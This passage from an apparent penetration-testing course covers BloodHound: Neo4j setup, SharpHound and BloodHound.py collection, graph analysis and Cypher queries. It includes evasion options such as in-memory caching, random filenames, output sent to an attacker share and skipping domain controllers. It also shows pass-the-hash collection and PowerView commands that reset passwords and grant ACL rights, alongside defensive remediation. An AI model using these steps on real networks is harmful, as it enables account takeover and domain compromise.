net start neo4jIf Java is not found, ensure the JAVA_HOME environment variable points to C:\Program Files\Java\jdk-11.0.17.
4.1.2 Linux Installation
Remote access: Neo4j only allows local connections by default. To allow remote connections, edit /etc/neo4j/neo4j.conf and uncomment dbms.default_listen_address=0.0.0.0. This is useful when hosting Neo4j on Linux but running the BloodHound GUI on a different system.
# Add Java backports repository
echo "deb http://httpredir.debian.org/debian stretch-backports main" | sudo tee -a /etc/apt/sources.list.d/stretch-backports.list
sudo apt-get update
# Add Neo4j repository
wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -
echo 'deb https://debian.neo4j.com stable 4.4' | sudo tee -a /etc/apt/sources.list.d/neo4j.list
sudo apt-get update
# Install prerequisites and Neo4j
sudo apt-get install apt-transport-https
sudo apt install neo4j=1:4.4.16 -y
# Ensure Java 11 is selected
sudo update-alternatives --config java
# Select the java-11-openjdk option
# Start Neo4j (console mode for testing)
sudo neo4j console
# Or use systemd
sudo systemctl start neo4j
sudo systemctl stop neo4j4.1.3 Configuring Neo4j and BloodHound GUI
After starting Neo4j, navigate to http://localhost:7474/ in a browser. Authenticate with the default credentials neo4j / neo4j and change the password when prompted.
Download the BloodHound GUI from GitHub releases. On Linux, run with the --no-sandbox flag:
# Linux
unzip BloodHound-linux-x64.zip
cd BloodHound-linux-x64/
./BloodHound --no-sandbox
# Windows - just double-click or run:
C:\Tools\BloodHound\BloodHound.exe4.1.4 Recovering Neo4j Credentials
If you lose the Neo4j password:
# 1. Stop Neo4j
sudo systemctl stop neo4j
# 2. Edit /etc/neo4j/neo4j.conf -- uncomment:
# dbms.security.auth_enabled=false
# 3. Start Neo4j
sudo neo4j console
# 4. Navigate to http://localhost:7474/, click Connect (no creds needed)
# 5. Run the Cypher query:
# ALTER USER neo4j SET PASSWORD 'New[password]';
# 6. Stop Neo4j, re-comment dbms.security.auth_enabled=false
# 7. Restart Neo4j normallyMethodology
-
sudo apt install neo4j=1:4.4.16 -y -
sudo systemctl start neo4j # Browse to http://localhost:7474/ and set password -
./BloodHound --no-sandbox -
net start neo4j C:\Tools\BloodHound\BloodHound.exe
Remediation (defending against BloodHound enumeration):
BloodHound collection relies on standard AD queries (LDAP, NetSessionEnum, NetLocalGroupGetMembers). Defenders should: (1) restrict who can read AD objects via AdminSDHolder and fine-grained permissions, (2) audit LDAP queries for anomalous patterns (Event IDs 1644 on DCs with LDAP diagnostics enabled), (3) deploy Microsoft ATA/ATP to detect reconnaissance activities, (4) restrict NetSessionEnum and SAMRpc via the RestrictRemoteSAM GPO setting, (5) block non-admin users from enumerating local groups on workstations.
4.2 BloodHound Overview and Graph Theory
BloodHound uses graph theory: mathematical structures that model pairwise relations between objects. In this model:
- Nodes represent AD objects (users, groups, computers, domains, OUs, GPOs, containers)
- Edges represent relationships between objects (MemberOf, AdminTo, HasSession, ForceChangePassword, GenericAll, etc.)
- Paths are chains of edges connecting nodes, representing potential attack routes
BloodHound uses the Cypher Query Language (Neo4j's graph query language, similar to SQL but designed for graphs) to analyze these relationships. A core capability is shortest path computation: given a starting node (e.g., a compromised user) and a target node (e.g., Domain Admins group), BloodHound calculates the minimum number of hops required.
Example: User Grace is a member of SQL Admins. A simple net user grace /domain reveals this direct membership, but shows no path to Domain Admins. BloodHound, however, discovers that SQL Admins has ForceChangePassword on user Peter, who is a member of a group that is (transitively) a member of Domain Admins. This two-hop attack path is difficult to spot through traditional enumeration but becomes immediately obvious in the graph.
BloodHound for Enterprise is the commercial version by SpecterOps that provides continuous Attack Path Management with automated collection scheduling, quantified risk scoring, and remediation guidance. The FOSS and Enterprise editions share a common library (SharpHound Common), which improves stability and documentation for both.
Root cause of AD attack paths: Attack paths exist because AD's permission model is cumulative and transitive. A user inherits all permissions from every group they belong to (including nested groups), and those permissions can grant control over other objects that themselves have further permissions. This creates implicit chains that grow exponentially with the number of objects and ACEs in the domain.
Methodology
4.3 SharpHound - Data Collection from Windows
SharpHound is the official data collector for BloodHound, written in C# and requiring the .NET framework. It uses native Windows API functions and LDAP queries to gather data from Active Directory. The collected data is exported as JSON files in a zip archive for import into BloodHound.
4.3.1 Basic Enumeration
Running SharpHound without options triggers the Default collection method, which resolves to: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote.
# Run default collection
C:\Tools> SharpHound.exeThe default collection gathers:
| # | Data Collected | Source |
|---|---|---|
| 1 | Users and Computers | LDAP |
| 2 | AD security group membership | LDAP |
| 3 | Domain trusts | LDAP / DsEnumerateDomainTrusts |
| 4 | Abusable permissions on AD objects (ACLs) | LDAP |
| 5 | OU tree structure | LDAP |
| 6 | Group Policy links | LDAP |
| 7 | Relevant AD object properties | LDAP |
| 8 | Local groups (Administrators, RDP, DCOM, PSRemote) | SMB / SAM-R on each computer |
| 9 | User sessions | NetSessionEnum on each computer |
| 10 | All Service Principal Names (SPNs) | LDAP |
Gathering local group membership and active sessions requires the SharpHound user to have Administrator rights on the remote computer. If the user lacks these rights, SharpHound will still collect LDAP-based data (groups, ACLs, trusts, etc.) but will fail to enumerate local groups and sessions on those machines.
4.3.2 Importing Data into BloodHound
SharpHound produces a timestamped zip file containing JSON files. To import:
# Start Neo4j
net start neo4j
# Launch BloodHound, log in with neo4j credentials
C:\Tools\BloodHound\BloodHound.exe
# Username: neo4j / Password: [password]Click the Upload button (far right), browse to the zip file, and upload. BloodHound will not duplicate existing data but will add any new information. Multiple zip files can be uploaded; BloodHound merges the data.
4.3.3 SharpHound Options and Collection Methods
Key SharpHound options (version 1.1.0):
| Flag | Description |
|---|---|
-c, --collectionmethods | Specify collection methods (Default, All, DCOnly, ComputerOnly, Session, etc.) |
-d, --domain | Target a specific domain |
-s, --searchforest | Search all domains in the forest |
--stealth | Stealth collection; only touches systems likely to have session data |
-f | Add an LDAP filter to the pregenerated filter |
--computerfile | Path to file containing specific computer names to enumerate |
--outputdirectory | Output directory for results |
--outputprefix | Prefix for output file names |
--randomfilenames | Use random filenames for output |
--memcache | Keep cache in memory (no .bin file on disk) |
--zippassword | Password-protect the zip archive |
--ldapusername / --ldappassword | Use alternate credentials for LDAP queries |
--domaincontroller | Target a specific DC (useful for port forwarding) |
--ldapport | Override LDAP port |
--excludedcs | Exclude DCs from session/local group enumeration (for ATA/ATP evasion) |
--throttle | Delay (ms) between computer requests |
--jitter | Add jitter (%) to throttle |
--threads | Number of enumeration threads (default: 50) |
-l, --Loop | Loop computer collection (for session hunting) |
--loopduration | Duration for looping (default: 2 hours) |
--loopinterval | Delay between loops (default: 30 seconds) |
--skipportcheck | Skip checking port 445 before connecting |
--nozip | Output raw JSON files without zipping |
Collection Method Details:
| Method | What It Collects | OPSEC Consideration |
|---|---|---|
Default | Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote | Connects to every domain-joined computer (generates significant traffic) |
All | All methods except GPOLocalGroup | Most comprehensive but noisiest |
DCOnly | Users, computers, groups, trusts, ACLs, OUs, GPOs, properties; from DC only (no computer connections) | Minimal traffic; only talks to DC via LDAP |
ComputerOnly | Sessions and local groups from domain computers only | Connects to individual workstations/servers |
Session | Active user sessions only | Uses NetSessionEnum (requires admin on targets post-MS update) |
LoggedOn | Uses remote registry to find logged-on users | Requires admin rights; uses registry APIs |
OPSEC scenario: In an environment with 2000 computers and a SOC with network monitoring, using Default or All would cause the attack host to generate traffic to all workstations, potentially triggering quarantine. The correct approach is to use DCOnly first (LDAP traffic to DC only), then selectively use ComputerOnly with --computerfile targeting only high-value machines.
4.3.4 Randomize and Hide SharpHound Output
SharpHound's default output patterns (timestamped JSON files, zip files, .bin cache) can be detected by defenders. To reduce forensic artifacts:
# Start a shared folder on the attack box
sudo impacket-smbserver share ./ -smb2support -user test -password test
# Connect from target and run SharpHound with stealth options
net use \\[attacker-ip]\share /user:test test
C:\Tools\SharpHound.exe --memcache --outputdirectory \\[attacker-ip]\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenamesThis approach: (1) keeps the cache in memory (--memcache), preventing the .bin file from being written to disk, (2) sends output directly to a remote share, (3) randomizes file names and extensions, and (4) password-protects the zip to hinder automated analysis.
4.3.5 Session Loop Collection
User sessions are transient; they appear when a user connects to a machine and disappear within minutes of disconnection. The --loop flag enables continuous session collection over a defined period:
# Check for existing sessions
net session
# Loop session collection for 1 hour, querying every minute
SharpHound.exe -c Session --loop --loopduration 01:00:00 --loopinterval 00:01:00Why sessions matter: Sessions reveal where users are actively logged in. If a Domain Admin has a session on a workstation you can compromise, you can extract their credentials from memory (e.g., via Mimikatz). Session data is the bridge between "who has access" and "where are they right now."
4.3.6 Running from Non-Domain-Joined Systems
When attacking from a non-domain-joined machine (e.g., HackTheBox, internal pentest with network-only access), use runas /netonly to inject domain credentials into the process:
# Launch cmd with domain credentials (netonly = network auth only)
runas /netonly /user:[DOMAIN]\[user] cmd.exe
# Enter password when prompted
# Verify authentication works
net view \\[domain]\
# Run SharpHound targeting the domain
SharpHound.exe -d [domain]runas /netonly does not validate credentials locally. If wrong credentials are used, failures will only appear during network operations. DNS resolution must also work; either configure the network adapter's DNS to point to the domain's DNS server or add entries to the hosts file.
Methodology
-
# Low-noise: DCOnly SharpHound.exe -c DCOnly # Full collection SharpHound.exe -c All # Targeted collection SharpHound.exe -c ComputerOnly --computerfile targets.txt -
SharpHound.exe --memcache --randomfilenames --zippassword P@ss --outputdirectory \\attacker\share\ -
SharpHound.exe -c Session --loop --loopduration 02:00:00 --loopinterval 00:01:00 -
runas /netonly /user:DOMAIN\user cmd.exe SharpHound.exe -d domain.htb
Remediation
Restrict the NetSessionEnum and NetLocalGroupGetMembers API calls by configuring RestrictRemoteSAM via GPO (Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options > Network access: Restrict clients allowed to make remote calls to SAM). Monitor for SharpHound-like LDAP queries using Event ID 1644 (requires LDAP diagnostics). Deploy ATA/ATP to detect large-scale LDAP reconnaissance. Consider using the --excludedcs flag awareness to understand that attackers will try to avoid DC-based detections.
4.4 BloodHound.py - Data Collection from Linux
BloodHound.py is an unofficial Python-based data collector created by Dirk-jan Mollema. It is built on Impacket and allows collecting AD data from a Linux attack host. Since Impacket underpins it, all Impacket authentication methods are available: username/password, NTLM hashes, AES keys, Kerberos ccache files.
4.4.1 Installation
Dependencies: impacket, ldap3, dnspython.
# Install via pip
pip install bloodhound
# Or install from source
git clone https://github.com/fox-it/BloodHound.py -q
cd BloodHound.py/
sudo python3 setup.py install4.4.2 BloodHound.py Options
| Flag | Description |
|---|---|
-c COLLECTIONMETHOD | Collection method: Group, LocalAdmin, Session, Trusts, Default, DCOnly, DCOM, RDP, PSRemote, LoggedOn, Container, ObjectProps, ACL, All |
-d DOMAIN | Domain to query |
-u USERNAME | Username (format: user@domain) |
-p PASSWORD | Password |
-k, --kerberos | Use Kerberos authentication |
--hashes HASHES | LM:NTLM hashes for pass-the-hash |
-no-pass | Don't ask for password (useful with -k and ccache) |
-aesKey | AES key for Kerberos (128 or 256 bits) |
--auth-method | Force auto, ntlm, or kerberos |
-ns NAMESERVER | Alternative DNS server for queries |
--dns-tcp | Use TCP for DNS instead of UDP |
-dc HOST | Override DC hostname |
-gc HOST | Override Global Catalog hostname |
-w WORKERS | Number of workers for computer enumeration (default: 10) |
--exclude-dcs | Skip DCs during computer enumeration |
--zip | Compress output to zip archive |
--computerfile | File of computer FQDNs to enumerate |
4.4.3 Using BloodHound.py
BloodHound.py requires the --domain, --collectionmethod, and authentication options. If the DNS server is not the domain DNS, use --nameserver:
# NTLM authentication with external DNS
bloodhound-python -d [domain] -c DCOnly -u [user] -p '[password]' -ns [target-ip]
# Kerberos authentication (requires DNS resolution of domain FQDN)
# First add DNS entry to hosts file:
echo -e "\n[target-ip] [dc-fqdn] dc01 [domain-short] [domain]" | sudo tee -a /etc/hosts
# Then run with Kerberos
bloodhound-python -d [domain] -c DCOnly -u [user] -p '[password]' -ns [target-ip] --kerberosKerberos authentication requires the host to resolve the domain FQDN (not just via --nameserver). The system's DNS or /etc/hosts must contain entries for the KDC. Using Kerberos makes traffic look more normal than NTLM on the wire.
4.4.4 Output Files
BloodHound.py outputs individual JSON files (not zipped by default). Use --zip to compress:
# Default output (individual JSON files)
ls
# 20230112171634_computers.json 20230112171634_domains.json
# 20230112171634_containers.json 20230112171634_gpos.json
# 20230112171634_groups.json 20230112171634_ous.json
# 20230112171634_users.json
# Zipped output
bloodhound-python -d [domain] -c All -u user -p 'pass' --zipMethodology
-
pip install bloodhound -
echo "[target-ip] dc01.domain.htb domain.htb" | sudo tee -a /etc/hosts -
bloodhound-python -d domain.htb -c All -u user -p 'pass' -ns [target-ip] --zip -
bloodhound-python -d domain.htb -c DCOnly -u user --hashes aad3b435b51404eeaad3b435b51404ee:NTLMHASH -ns [target-ip]
Remediation
BloodHound.py uses LDAP queries and (for non-DCOnly methods) SMB connections to computers. The same defenses apply as for SharpHound: restrict LDAP query access, configure RestrictRemoteSAM, monitor for anomalous LDAP activity. Additionally, since BloodHound.py often comes from a Linux host outside the domain, monitoring for LDAP binds from non-domain-joined IP addresses can be an effective detection strategy.
4.5 Navigating the BloodHound GUI

The BloodHound GUI is the primary interface for analyzing collected data. On login, it automatically runs Find all Domain Admins and displays the result in the Graph Drawing Area.
4.5.1 Graph Drawing Area
The main canvas where nodes and edges are visualized. Interactions:
| Action (Right-click Node) | Description |
|---|---|
| Set as Starting Node | Set this node as the start point for pathfinding |
| Set as Ending Node | Set this node as the target for pathfinding |
| Shortest Paths to Here | Find all shortest paths from any node to this node (can be slow on large DBs) |
| Shortest Paths to Here from Owned | Find attack paths to this node from any node marked as owned |
| Edit Node | Edit properties on the node or add custom properties |
| Mark as Owned | Mark node as compromised (skull icon); enables "from Owned" queries |
| Mark/Unmark as High Value | Toggle high-value status (Domain Admins/Enterprise Admins are high-value by default) |
| Delete Node | Remove node from the database |
Edges in the graph also have a help menu accessible by right-clicking, which provides abuse information, examples, OpSec considerations, and references for every edge type.
4.5.2 Search Bar and Pathfinding
The search bar supports searching by name or by node type prefix:
| AD Node Types | Azure Node Types |
|---|---|
User, Group, Computer, Domain, OU, GPO, Container | AZApp, AZRole, AZDevice, AZGroup, AZKeyVault, AZManagementGroup, AZResourceGroup, AZServicePrincipal, AZSubscription, AZTenant, AZUser, AZVM |
Example: type user:peter to search only user nodes containing "peter", or group:domain for groups.
Pathfinding: Click the pathfinding button (crosshair icon) to find attack paths between two nodes. You can filter out specific edges; for example, uncheck ForceChangePassword if you want to avoid changing user passwords during the engagement.
4.5.3 Upper Right Menu and Settings
| Button | Function |
|---|---|
| Refresh | Rerun the previous query |
| Export Graph | Save current graph as JSON or PNG |
| Import Graph | Load a previously exported JSON graph |
| Upload Data | Upload SharpHound/BloodHound.py/AzureHound data (JSON or zip) |
| Change Layout Type | Toggle between hierarchical and force-directed layouts |
| Settings | Node/Edge label display, Query Debug Mode, Low Detail Mode, Dark Mode |
Keyboard shortcuts:
| Key | Action |
|---|---|
CTRL | Cycle through node label display settings (default, always show, always hide) |
Spacebar | Spotlight window; lists all drawn nodes, click to zoom to one |
Backspace | Return to previous graph result |
S | Toggle the information panel below the search bar |
4.5.4 Database Info
The Database Info tab shows an overview: number of sessions, relationships, ACLs, Azure objects, and AD objects. Management options:
| Option | Description |
|---|---|
| Clear Database | Remove all nodes, relationships, and properties (useful for fresh assessments) |
| Clear Sessions | Remove only session data |
| Refresh Database Stats | Update displayed statistics |
| Warming Up Database | Load entire database into memory for faster queries (can take time on large DBs) |
Methodology
4.6 Nodes
Nodes represent AD and Azure objects in BloodHound. Each node type has specific properties and information categories displayed in the Node Info tab.
4.6.1 Node Types and Properties
| Node Type | Description | Key Info Categories |
|---|---|---|
| Users | Individuals who can authenticate and access resources | Overview, Node Properties, Extra Properties, Group Membership, Local Admin Rights, Execution Rights, Outbound Object Control, Inbound Control Rights |
| Computers | Domain-joined devices | Same as Users, plus: Local Admins, Inbound/Outbound Execution Rights |
| Groups | Logical collections of users/computers for permission management | Group Members (users, groups, computers that are members) |
| Domains | Logical grouping of network resources with centralized admin | Foreign Members, Inbound Trusts, Outbound Trusts |
| OUs | Organizational Units; containers for delegated admin | Affecting GPOs, Descendant Objects |
| GPOs | Group Policy Objects; enforce settings on users/computers | Affected Objects (users, groups, computers impacted by the GPO) |
| Containers | Similar to OUs but without delegated admin control | Same as OUs |
4.6.2 Key Node Information Categories
| Category | What It Reveals | Offensive Use |
|---|---|---|
| Overview | General object information | Quick identification of object type and domain |
| Node Properties | Default AD properties (enabled, last logon, password last set, etc.) | Identify stale accounts, password age |
| Extra Properties | Non-default string properties (description, etc.); requires --CollectAllProperties | Passwords sometimes stored in description field |
| Group Membership | Direct and transitive group memberships | Identify inherited privileges |
| Local Admin Rights | Machines where this user/group has local admin | Lateral movement targets |
| Execution Rights | RDP, DCOM, PSRemote, SQL Admin rights | Remote code execution paths |
| Outbound Object Control | Objects this user/group can control | Privilege escalation opportunities |
| Inbound Control Rights | Who can control this object | Understanding who can compromise this account |
Domain node tip: The Map OU Structure option in the Domain Overview gives a high-level view of how the AD is organized; essential for understanding the scope of GPO enforcement and delegation.
Methodology
4.7 Edges
Edges represent relationships and privileges between objects. They form the attack paths that BloodHound visualizes. Understanding edges is critical for both exploitation and remediation.
4.7.1 List of AD Edges
| Edge | Description | Abuse Potential |
|---|---|---|
AdminTo | User/group has local admin on a computer | Full control of the computer, credential extraction |
MemberOf | User/group is a member of another group | Inherits all permissions of the parent group |
HasSession | User has an active session on a computer | Credential theft via memory extraction |
ForceChangePassword | Can reset target user's password without knowing it | Account takeover |
AddMembers | Can add members to a group | Self-escalation by adding to privileged groups |
AddSelf | Can add self to a group | Direct group membership escalation |
CanRDP | Can RDP to a computer | Remote access to target |
CanPSRemote | Can use PowerShell Remoting on a computer | Remote code execution via WinRM |
ExecuteDCOM | Can execute commands via DCOM | Lateral movement via DCOM |
SQLAdmin | Has SQL admin rights | Database access, xp_cmdshell for OS command execution |
AllowedToDelegate | Has constrained delegation rights | Impersonate users to specific services |
DCSync | Has Replicating Directory Changes + All | Extract all password hashes from DC |
GetChanges/GetChangesAll | Components of DCSync rights | Both required for DCSync attack |
GenericAll | Full control over the target object | Reset passwords, modify attributes, add to groups, Kerberoast, etc. |
WriteDacl | Can modify the DACL of the target | Grant yourself any permission on the target |
GenericWrite | Can write to non-protected attributes | Set SPN (targeted Kerberoasting), modify logon script, etc. |
WriteOwner | Can change the owner of the target | Take ownership, then modify DACL to grant full control |
WriteSPN | Can modify the Service Principal Name | Targeted Kerberoasting |
Owns | Owner of the target object | Can modify DACL to grant any permission |
AddKeyCredentialLink | Can add a Key Credential to the target | Shadow Credentials attack for PKINIT auth |
ReadLAPSPassword | Can read LAPS password attribute | Obtain local admin password |
ReadGMSAPassword | Can read gMSA password blob | Obtain service account NTLM hash |
Contains | OU/Container contains this object | GPO inheritance, delegation scope |
AllExtendedRights | Has all extended rights on the target | Includes ForceChangePassword, ReadLAPSPassword, etc. |
GPLink | GPO is linked to an OU/Domain | GPO abuse to push malicious settings/scripts |
AllowedToAct | Resource-Based Constrained Delegation (RBCD) | Impersonate any user to the target service |
AddAllowedToAct | Can modify msDS-AllowedToActOnBehalfOfOtherIdentity | Configure RBCD for privilege escalation |
TrustedBy | Domain trust relationship | Cross-domain/forest attacks |
SyncLAPSPassword | Can sync LAPS passwords | Obtain local admin credentials |
HasSIDHistory | Object has SID history entries | Inherited permissions from previous domain |
WriteAccountRestrictions | Can modify account restrictions | Modify delegation settings, etc. |
4.7.2 How to Abuse Edges
BloodHound provides built-in abuse guidance for every edge. Right-click any edge in the graph and select the Help menu to see:
- Info: What the edge means
- Abuse Info: Step-by-step exploitation instructions with tool commands
- Opsec Considerations: Detection risks of each abuse method
- References: Links to detailed documentation
Example; ForceChangePassword abuse chain: User Grace is MemberOf PasswordReset group, which has ForceChangePassword on Rosy, who has CanRDP on SRV01.
# Step 1: Import PowerView
Set-ExecutionPolicy Bypass -Force
Import-Module C:\tools\PowerView.ps1
# Step 2: Create PSCredential for [user]
$SecPassword = ConvertTo-SecureString '[password]' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('[DOMAIN]\[user]', $SecPassword)
# Step 3: Set new password for [target-user]
$UserPassword = ConvertTo-SecureString '[new-password]' -AsPlainText -Force
Set-DomainUserPassword -Identity [target-user] -AccountPassword $UserPassword -Credential $Cred -Verbose
# Step 4: RDP to [target-host] as [target-user]
# xfreerdp /v:[target-host] /u:[DOMAIN]\[target-user] /p:'[new-password]'Alternative method using net.exe (simpler but less OPSEC-safe):
net user [target-user] [new-password] /domain4.7.3 BloodHound Edge Playground Reference
The following table lists the practice edges available in the HTB CAPE lab environment. Each row shows a user, their credentials, the edge they can abuse, and the target:
| User | Edge | Target | Attack Description |
|---|---|---|---|
| grace | ForceChangePassword | rosy | Reset Rosy's password |
| rosy | CanRDP, CanPSRemote, ExecuteDCOM | SRV01 | Remote access to SRV01 |
| sarah | AdminTo | SRV01 | Local admin on SRV01 |
| martha | AddMembers | ITManagers | Add users to ITManagers group |
| victor | AddSelf | ITManagers | Add self to ITManagers group |
| ester | AllowedToDelegate | SRV01 | Constrained delegation to SRV01 |
| peter | DCSync | INLANEFREIGHT | Extract all domain hashes |
| pedro | GenericAll | ester, ITAdmins, WS01, INLANEFREIGHT | Full control over user/group/computer/domain |
| carlos | WriteDacl | juliette, FirewallManagers, SRV01, INLANEFREIGHT | Modify ACL on user/group/computer/domain |
| indhi | WriteOwner | juliette, FirewallManagers, SRV01, INLANEFREIGHT | Take ownership of user/group/computer/domain |
| indhi | WriteSPN | nicole | Targeted Kerberoasting |
| nicole | GenericWrite | albert | Modify attributes (logon script, SPN, etc.) |
| sarah | AddKeyCredentialLink | indhi | Shadow Credentials attack |
| daniela | AddKeyCredentialLink | SRV01 | Shadow Credentials on computer |
| elieser | Owns | nicole | Owner privileges; modify DACL |
| cherly | ReadLAPSPassword | LAPS01 | Read local admin password |
| cherly | ReadGMSAPassword | svc_devadm | Read gMSA password blob |
| elizabeth | AllExtendedRights | elieser | Force password change, read LAPS, etc. |
| svc_backups | WriteDacl, WriteOwner, GenericWrite | BACKUPS (GPO) | Modify GPO to push malicious settings |
| gil | AddAllowedToAct | DC01 | Configure RBCD on the Domain Controller |
Methodology
-
Set-DomainUserPassword -Identity target -AccountPassword (ConvertTo-SecureString 'NewP@ss!' -AsPlainText -Force) -Credential $cred -Verbose -
Add-DomainObjectAcl -TargetIdentity target -PrincipalIdentity attacker -Rights All -Credential $cred -
Set-DomainObjectOwner -Identity target -OwnerIdentity attacker -Credential $cred
Remediation for common edges:
4.8 Analyzing BloodHound Data
Effective analysis of BloodHound data goes beyond clicking pre-built queries. A systematic approach ensures you find all attack paths and misconfigurations.

4.8.1 Domain Mapping and Analysis
Start with a top-down domain analysis:
# Search for the domain node
Domain:[domain]Key information to note from the domain overview:
| Metric | What It Tells You |
|---|---|
| Domain Functional Level | Indicates potential for legacy protocols (2008 = NTLMv1, etc.) |
| Number of Users | Scale of the environment |
| Number of Groups | Complexity of permission model |
| Number of Computers | Attack surface for lateral movement |
| Number of OUs | Organizational complexity, GPO scope |
| Number of GPOs | Policy enforcement points |
Next, examine the Domain Users group; every domain user inherits its rights. Check:
- Local Admin Rights: Domain Users should never have local admin anywhere
- Outbound Object Control > Transitive Object Control: Reveals all objects that any domain user controls; a critical finding
Run pathfinding from DOMAIN USERS@DOMAIN to DOMAIN ADMINS@DOMAIN. If a path exists, it means every user in the domain has a path to Domain Admin; a critical vulnerability.
4.8.2 Pre-Built Analytics Queries
| Query | Purpose | Why It Matters |
|---|---|---|
| Find all Domain Admins | List direct and nested DA members | Identify who to target and which accounts to protect |
| Find Shortest Paths to Domain Admins | Discover all paths from any node to DA | Identifies low-hanging fruit and critical misconfigurations |
| Find Principals with DCSync Rights | Find accounts with replication rights | Non-DC accounts with DCSync = critical vuln |
| Users with Foreign Domain Group Membership | Cross-trust user memberships | Cross-trust attack opportunities |
| Groups with Foreign Domain Group Membership | Cross-trust group memberships | Cross-trust attack opportunities |
| Map Domain Trusts | Visualize all trust relationships | Identify trust abuse paths |
| Shortest Paths to Unconstrained Delegation Systems | Find paths to unconstrained delegation hosts | Unconstrained delegation = credential theft |
| Shortest Paths from Kerberoastable Users | Paths from Kerberoastable users to DA | Crack SPN hash + follow path = DA |
| Shortest Path from Owned Principals | What can compromised nodes reach? | Plan next moves after compromise |
| Shortest Paths to Domain Admins from Owned Principals | Direct path from owned to DA | Fastest route to objective |
| Shortest Paths to High-Value Targets | Paths to default and custom high-value targets | Broader than just DA; includes any marked high-value |
4.8.3 Finding Sessions and Using Owned Principals
Sessions: The Database Info tab shows captured sessions. Clicking the session count on a user or group node reveals which computer the user was connected to during enumeration. Sessions indicate where credentials may be extractable from memory.
Owned Principals: Right-click any node and select Mark as Owned (skull icon appears). Then use the pre-built query Shortest Path from Owned Principals to see what additional targets are reachable from all compromised nodes. This is the primary workflow for iterative attack path discovery:
- Compromise a user/computer
- Mark it as Owned
- Run "Shortest Path from Owned" to find next targets
- Exploit the next edge in the path
- Mark the new node as Owned
- Repeat until objective is reached
Methodology
Remediation
Regularly run the pre-built queries defensively to identify and remediate paths before attackers find them. Focus on paths from Domain Users to Domain Admins first, then progressively address paths from other groups. Prioritize remediating edges that appear in the most paths (high-traffic edges).
4.9 Cypher Queries
Cypher is Neo4j's graph query language, inspired by SQL but designed for graph patterns. It uses ASCII art-like syntax to describe nodes and relationships. BloodHound's pre-built queries are Cypher under the hood, and writing custom queries unlocks the full power of the tool.
4.9.1 Cypher Syntax Fundamentals
| Attribute | Syntax | Description |
|---|---|---|
| Nodes | (n:Label {prop: "val"}) | Parentheses, with optional label and properties |
| Variables | n, u, g | Placeholders for nodes or relationships |
| Relationships | -[r:TYPE]-> | Dashes and arrows with type in brackets; -> = directed, - = undirected |
| Labels | :User, :Group, :Computer | Group nodes by type (colon prefix) |
| Properties | {name: "value", enabled: true} | Curly braces for key-value pairs on nodes/relationships |
Core keywords:
| Keyword | Description |
|---|---|
MATCH | Describe the search pattern for nodes/relationships |
WHERE | Add filtering constraints |
RETURN | Specify what to return (nodes, properties, counts, etc.) |
CONTAINS | String contains substring |
STARTS WITH | String starts with prefix |
=~ | Regular expression match |
shortestPath | Find shortest path between two nodes |
allshortestpaths | Find all shortest paths (not just one) |
4.9.2 Basic Cypher Queries
-- Return all users
MATCH (u:User) RETURN u
-- Return a specific user by name
MATCH (u:User {name:"[USER]@[domain]"}) RETURN u
-- Alternative with WHERE clause
MATCH (u:User) WHERE u.name = "[USER]@[domain]" RETURN u
-- Return [user]'s group memberships
MATCH (u:User {name:"[USER]@[domain]"})-[r:MemberOf]->(peterGroups)
RETURN peterGroups
-- Display the full relationship graph (nodes + edges)
MATCH (n:User {name:"[USER]@[domain]"})-[r:MemberOf]->(g:Group)
RETURN n,r,g
-- For BloodHound GUI Raw Query bar (wrap in path variable):
MATCH p=((n:User {name:"[USER]@[domain]"})-[r:MemberOf]->(g:Group))
RETURN p4.9.3 Depth Traversal and Filtering
The *1.. syntax specifies path depth: minimum 1 hop, unlimited maximum. This is essential for following transitive group memberships:
-- [user]'s direct AND transitive group memberships (any depth)
MATCH p=((u:User {name:"[USER]@[domain]"})-[r:MemberOf*1..]->(g:Group))
RETURN p
-- Limit to max 2 hops
MATCH p=(n:User)-[r1:MemberOf*1..2]->(g:Group)
RETURN p
-- Filter by group name containing "ITSECURITY"
MATCH p=(n:User)-[r1:MemberOf*1..]->(g:Group)
WHERE nodes(p)[1].name CONTAINS 'ITSECURITY'
RETURN p
-- Same filter using regex (case-insensitive)
MATCH p=(n:User)-[r1:MemberOf*1..]->(g:Group)
WHERE nodes(p)[1].name =~ '(?i)itsecurity.*'
RETURN pRegex elements: (?i) = case-insensitive, .* = match any characters.
4.9.4 Analyzing Built-in Queries
Enable Query Debug Mode in Settings to see the raw Cypher behind pre-built queries. The most important built-in query:
-- Shortest paths to Domain Admins (built-in query)
MATCH p=shortestPath((n)-[*1..]->(m:Group {name:"DOMAIN ADMINS@[domain]"}))
WHERE NOT n=m
RETURN pThe shortestPath function finds the shortest path between any node n and the Domain Admins group m. WHERE NOT n=m prevents a node from showing a path to itself. The [*1..] means "follow any relationship type, any depth."
4.9.5 Advanced and Custom Queries
The most powerful query: find all paths from a compromised user to ANY node:
-- Shortest path from a specific node to anything (the "universal" query)
MATCH p = shortestPath((n)-[*1..]->(c))
WHERE n.name =~ '(?i)[user].*' AND NOT c=n
RETURN p
-- Use allshortestpaths for every single relationship
MATCH p = allshortestPaths((n)-[*1..]->(c))
WHERE n.name =~ '(?i)[user].*' AND NOT c=n
RETURN pWhy this query is critical: Default BloodHound queries only look for paths to Domain Admins or high-value targets. If a compromised user has no path to DA but does have control over another user, machine, GPO, or group, the default queries will show nothing. This "universal" query reveals every relationship the compromised user has, often uncovering non-obvious escalation paths.
If this query returns no results, fall back to PowerView for ACL enumeration:
Import-Module C:\tools\PowerView.ps1
Get-DomainObjectAcl -Identity [user] -domain [domain] -ResolveGUIDsAdditional useful custom queries:
-- Find dangerous rights that Domain Users should NOT have over computers
MATCH p=(g:Group)-[r:Owns|WriteDacl|GenericAll|WriteOwner|ExecuteDCOM|GenericWrite|AllowedToDelegate|ForceChangePassword]->(c:Computer)
WHERE g.name STARTS WITH "DOMAIN USERS"
RETURN p
-- Find users with non-blank description (passwords sometimes stored here)
-- Run this in the Neo4j browser console (http://localhost:7474/browser)
MATCH (u:User)
WHERE u.description IS NOT NULL
RETURN u.name, u.description
-- Find all local administrators and which hosts they admin
